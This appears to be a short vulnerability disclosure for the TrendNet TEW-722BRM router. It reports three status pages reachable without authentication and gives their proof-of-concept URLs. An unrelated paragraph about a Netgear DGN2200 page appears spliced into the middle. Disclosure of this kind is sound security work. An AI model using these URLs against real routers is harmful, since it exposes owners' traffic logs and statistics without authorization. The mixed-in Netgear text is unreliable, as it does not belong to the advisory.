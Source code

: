 #### Vulnerability Detail
There are several pages in TrendNet TEW-722BRM can be accessed without authorization, which could lead to the leak of vital private information.These pages are "status/status_statistic.shtml", "status/traffic_log.shtml", "status/status_vdsl_statistic.shtml". When processed, it exposes the statistic, traffic log and DSL statistic of router.

#### PoC
http://targetip/status/status_statistic.shtml

![poc](https://github.com/dahua966/Routers-vuls/blob/master/TEW-722BRM/status_statistic.jpg)

http://targetip/status/traffic_log.shtml

![poc](https://github.com/dahua966/Routers-vuls/blob/master/TEW-722BRM/traffic_log.jpg)

http://targetip/status/status_vdsl_statistic.shtml

![poc](https://github.com/dahua966/Routers-vuls/blob/master/TEW-722BRM/DSL_statistic.jpg)

A vulnerability is in the 'MNU_access_failure.htm' page of the Netgear DGN2200, version DGN2200-V1.0.0.58_7.0.57, which can allow a remote attacker to access this page without any authentication. 



#### Acknowledgement
Thanks to the partners who discovered the vulnerability together：

Wei Xie

Zhen-hua Wang

En-Ze Wang